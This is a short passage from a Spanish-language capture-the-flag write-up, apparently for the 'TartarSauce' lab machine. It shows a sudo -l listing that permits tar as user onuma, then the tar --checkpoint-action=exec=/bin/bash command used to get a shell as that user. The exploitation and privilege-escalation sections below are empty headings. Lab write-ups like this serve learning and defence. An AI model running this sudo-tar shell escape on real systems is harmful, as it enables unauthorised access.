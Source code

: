 ```r
www-data@TartarSauce:/var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha$ sudo -l
(onuma) NOPASSWD: /bin/tar
```
*Ahora podemos ver que tenemos privilegios para hacer un tar desde el usuario onuma.*

![[Pasted image 20241011204940.png]]
*Podemos ver esto...*

```r
www-data@TartarSauce:/var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

$ whoami
onuma
```
*Vemos que ahora nos hemos convertido en onuma*

# Explotación
*En esta fase vamos a ya tener un vector de ataque previamente enumerado y vamos a explotarlo.*



# Escalada de privilegios
*Esta fase va a consistir en pasar de ser un usuario no privilegiado a ser el administrador del sistema aprovechandonos de fallos en la seguridad internos del servidor.*

